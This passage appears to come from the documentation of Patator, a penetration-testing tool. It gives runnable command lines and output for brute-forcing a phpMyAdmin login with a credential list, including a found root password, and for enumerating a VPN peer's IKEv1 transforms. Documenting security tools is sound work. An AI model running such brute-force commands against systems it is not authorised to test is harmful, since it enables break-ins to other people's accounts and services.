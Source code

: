 Tested against `openssh-server 1:6.0p1-4+deb7u2` on `Debian 7.8`.

* HTTP : Brute-force phpMyAdmin logon

```
$ http_fuzz url=http://10.0.0.1/pma/index.php method=POST body='pma_username=COMBO00&pma_password=COMBO01&server=1&target=index.php&lang=en&token=' 0=combos.txt before_urls=http://10.0.0.1/pma/index.php accept_cookie=1 follow=1 -x ignore:fgrep='Cannot log in to the MySQL server' -l /tmp/qsdf
11:53:47 patator    INFO - Starting Patator v0.7-beta (http://code.google.com/p/patator/) at 2014-08-31 11:53 EST
11:53:47 patator    INFO -
11:53:47 patator    INFO - code size:clen       time | candidate                          |   num | mesg
11:53:47 patator    INFO - -----------------------------------------------------------------------------
11:53:48 patator    INFO - 200  49585:0        0.150 | root:p@ssw0rd                      |    26 | HTTP/1.1 200 OK
11:53:51 patator    INFO - 200  13215:0        0.351 | root:                              |    72 | HTTP/1.1 200 OK
^C
11:53:54 patator    INFO - Hits/Done/Skip/Fail/Size: 2/198/0/0/3000, Avg: 29 r/s, Time: 0h 0m 6s
11:53:54 patator    INFO - To resume execution, pass --resume 15,15,15,16,15,36,15,16,15,40
```

Payload #72 was a false positive due to an unexpected error message:

```
$ grep AllowNoPassword /tmp/qsdf/72_200\:13215\:0\:0.351.txt
... class="icon ic_s_error" /> Login without a password is forbidden by configuration (see AllowNoPassword)</div><noscript>
```

Tested against `phpMyAdmin 4.2.7.1`.

* IKEv1 : Enumerate transforms supported by VPN peer

```
# ike_enum host=10.0.0.1 transform=MOD0 0=TRANS aggressive=RANGE1 1=int:0-1 -x ignore:fgrep='NO-PROPOSAL'
16:52:58 patator    INFO - Starting Patator v0.7-beta (https://github.com/lanjelot/patator) at 2015-04-05 16:52 AEST
16:52:58 patator    INFO -
16:52:58 patator    INFO - code  size    time | candidate                          |   num | mesg
16:52:58 patator    INFO - -----------------------------------------------------------------------------
16:53:03 patator    INFO - 0     70     0.034 | 5,1,1,2:0                          |  1539 | Handshake returned: Enc=3DES Hash=MD5 Group=2:modp1024 Auth=PSK (Main)
16:53:03 patator    INFO - 0     72     0.031 | 5,1,65001,2:0                      |  1579 | Handshake returned: Enc=3DES Hash=MD5 Group=2:modp1024 Auth=XAUTH&PSK (Main)
16:53:03 patator    INFO - 0     76     0.033 | 5,1,1,2:1                          |  1540 | Handshake returned: Enc=3DES Hash=MD5 Group=2:modp1024 Auth=PSK (Aggressive)
16:53:03 patator    INFO - 0     78     0.034 | 5,1,65001,2:1                      |  1580 | Handshake returned: Enc=3DES Hash=MD5 Group=2:modp1024 Auth=XAUTH&PSK (Aggressive)
16:53:06 patator    INFO - 0     84     0.034 | 7/128,2,1,2:0                      |  2371 | Handshake returned: Enc=AES KeyLength=128 Hash=SHA1 Group=2:modp1024 Auth=PSK (Main)
16:53:06 patator    INFO - 0     90     0.033 | 7/128,2,1,2:1                      |  2372 | Handshake returned: Enc=AES KeyLength=128 Hash=SHA1 Group=2:modp1024 Auth=PSK (Aggressive)
16:53:06 patator    INFO - 0     86     0.034 | 7/128,2,65001,2:0                  |  2411 | Handshake returned: Enc=AES KeyLength=128 Hash=SHA1 Group=2:modp1024 Auth=XAUTH&PSK (Main)
16:53:06 patator    INFO - 0     92     0.035 | 7/128,2,65001,2:1                  |  2412 | Handshake returned: Enc=AES KeyLength=128 Hash=SHA1 Group=2:modp1024 Auth=XAUTH&PSK (Aggressive)

+ 10.0.0.1:500 (Main Mode)
    Encryption       Hash             Auth       Group
    ---------- ----------       ----------  ----------
          3DES        MD5              PSK    modp1024
          3DES        MD5        XAUTH&PSK    modp1024
        AES128       SHA1              PSK    modp1024
```